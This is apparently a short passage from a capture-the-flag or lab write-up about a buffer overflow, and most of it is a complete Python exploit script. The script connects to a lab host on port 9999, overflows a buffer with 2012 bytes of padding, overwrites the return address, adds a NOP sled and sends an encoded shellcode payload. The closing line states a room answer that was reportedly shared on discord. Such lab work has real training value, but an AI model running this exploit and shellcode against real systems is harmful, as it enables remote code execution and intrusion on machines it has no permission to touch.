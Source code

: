 The final script:

```python
import socket
import struct
TCP_IP = '10.10.30.155'
TCP_PORT = 9999
BUFFER_SIZE = 1024
MESSAGE = b"hello"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((TCP_IP, TCP_PORT))
print(s.recv(BUFFER_SIZE))
print(s.recv(BUFFER_SIZE))
s.send(MESSAGE)
print(s.recv(BUFFER_SIZE))
payload = ("\xb8\x03\xdb\xd2\x5c\xda\xd7\xd9\x74\x24\xf4\x5f\x33\xc9\xb1"
"\x52\x83\xef\xfc\x31\x47\x0e\x03\x44\xd5\x30\xa9\xb6\x01\x36"
"\x52\x46\xd2\x57\xda\xa3\xe3\x57\xb8\xa0\x54\x68\xca\xe4\x58"
"\x03\x9e\x1c\xea\x61\x37\x13\x5b\xcf\x61\x1a\x5c\x7c\x51\x3d"
"\xde\x7f\x86\x9d\xdf\x4f\xdb\xdc\x18\xad\x16\x8c\xf1\xb9\x85"
"\x20\x75\xf7\x15\xcb\xc5\x19\x1e\x28\x9d\x18\x0f\xff\x95\x42"
"\x8f\xfe\x7a\xff\x86\x18\x9e\x3a\x50\x93\x54\xb0\x63\x75\xa5"
"\x39\xcf\xb8\x09\xc8\x11\xfd\xae\x33\x64\xf7\xcc\xce\x7f\xcc"
"\xaf\x14\xf5\xd6\x08\xde\xad\x32\xa8\x33\x2b\xb1\xa6\xf8\x3f"
"\x9d\xaa\xff\xec\x96\xd7\x74\x13\x78\x5e\xce\x30\x5c\x3a\x94"
"\x59\xc5\xe6\x7b\x65\x15\x49\x23\xc3\x5e\x64\x30\x7e\x3d\xe1"
"\xf5\xb3\xbd\xf1\x91\xc4\xce\xc3\x3e\x7f\x58\x68\xb6\x59\x9f"
"\x8f\xed\x1e\x0f\x6e\x0e\x5f\x06\xb5\x5a\x0f\x30\x1c\xe3\xc4"
"\xc0\xa1\x36\x4a\x90\x0d\xe9\x2b\x40\xee\x59\xc4\x8a\xe1\x86"
"\xf4\xb5\x2b\xaf\x9f\x4c\xbc\xda\x55\x2b\x2e\xb3\x6b\xb3\x5e"
"\xd1\xe5\x55\x34\xc5\xa3\xce\xa1\x7c\xee\x84\x50\x80\x24\xe1"
"\x53\x0a\xcb\x16\x1d\xfb\xa6\x04\xca\x0b\xfd\x76\x5d\x13\x2b"
"\x1e\x01\x86\xb0\xde\x4c\xbb\x6e\x89\x19\x0d\x67\x5f\xb4\x34"
"\xd1\x7d\x45\xa0\x1a\xc5\x92\x11\xa4\xc4\x57\x2d\x82\xd6\xa1"
"\xae\x8e\x82\x7d\xf9\x58\x7c\x38\x53\x2b\xd6\x92\x08\xe5\xbe"
"\x63\x63\x36\xb8\x6b\xae\xc0\x24\xdd\x07\x95\x5b\xd2\xcf\x11"
"\x24\x0e\x70\xdd\xff\x8a\x90\x3c\xd5\xe6\x38\x99\xbc\x4a\x25"
"\x1a\x6b\x88\x50\x99\x99\x71\xa7\x81\xe8\x74\xe3\x05\x01\x05"
"\x7c\xe0\x25\xba\x7d\x21")
overflow = "A"*2012
retn = "\xdf\x14\x50\x62"
padding = "\x90"*16
msg = overflow + retn + padding + payload
s.send(bytes(msg, "latin-1"))
s.close()
print( "done")
```

After trying to find out :-; the final open ports, It was reported on discord as a issue by many. and its answer was 6.

